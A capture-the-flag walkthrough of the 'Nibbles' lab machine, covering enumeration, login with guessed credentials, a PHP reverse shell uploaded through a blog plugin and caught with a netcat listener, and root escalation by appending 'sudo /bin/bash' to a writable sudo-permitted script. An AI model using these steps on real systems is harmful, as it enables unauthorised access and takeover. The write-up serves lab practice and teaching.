 # Nibbles
## Linux
## Easy

## Enumeration
Let's start with a simple nmap scan:
```bash
nmap -sC -sV -oN outputNMAP.txt $targetIP
```

![Nmap](img1.png)

Let's take a look at port 80.

![Page1](img2.png)

Nothing to see. Let's check the source code.

![Page1SC](img3.png)

Looks like the dev forgot a comment. Let's check if we can find anything interesting following what we found.

![NibbleBlog1](img4.png)

We can see the website is powered by Atom. Let's keep that in mind. I'll run a dir scan with gobuster.

```bash
gobuster dir -u http://10.129.11.45/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 16
```

![GoBuster](img5.png)

I will also search for files with HTML and PHP extensions.

```bash
gobuster dir -u http://10.129.11.45/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 16 -x php,html
```

![GoBuster2](img6.png)

Let's take a look at the "admin.php" page. We find a login page. Using default credentials (admin:admin) we get this.

![LoginF](img7.png)

Let's try using onther password. I'll try these credentials (admin:nibbles).

![LoginS](img8.png)

It worked! 

## Foothold
I found a plugin call "My image" which allows me to upload a file. I'll try uploading a reverse shell.

![My Image Plugin](img9.png)

After I uploaded the revershell I  went to "http://10.129.11.45/nibbleblog/content/private/plugins/my_image/" and found this.

![Uploaded](img10.png)

I'll open a port on my machine and "image.php" (it's our reverseshell script).

```bash
rlwrap nc -lnvp 6666
```

![RevShell](img11.png)

It worked! Now let's upgrade the shell and get the flag.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
[Ctrl+z]
stty raw -echo
fg
export TERM=tmux-256color
ssty rows 67 columns 318

cd /home
ls
cd nibbler
cat user.txt
```

### We got the user flag !


## Privilege Escalation
Let's see what rights we have.

```bash
sudo -l
```

![SudoL](img12.png)

Tha's interesting. Looking in the folder we also find a "personal.zip". Let's unzip it.

```bash
unzip personal.zip
```

![Zip](img14.png)

We can see the "monitor.sh" file was in the zip. Let's see what flag does it have.

```bash
ls -la personal/stuff/monitor.sh
```

![Bingo](img13.png)

We can edit the file. Let's make it start a shell as root and run it.

```bash
cd personal/stuff
echo "sudo /bin/bash" >> monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```
![Root](img15.png)

It worked!. Now let's get the root flag.

```bash
cat /root/root.txt
```

### We got the root flag.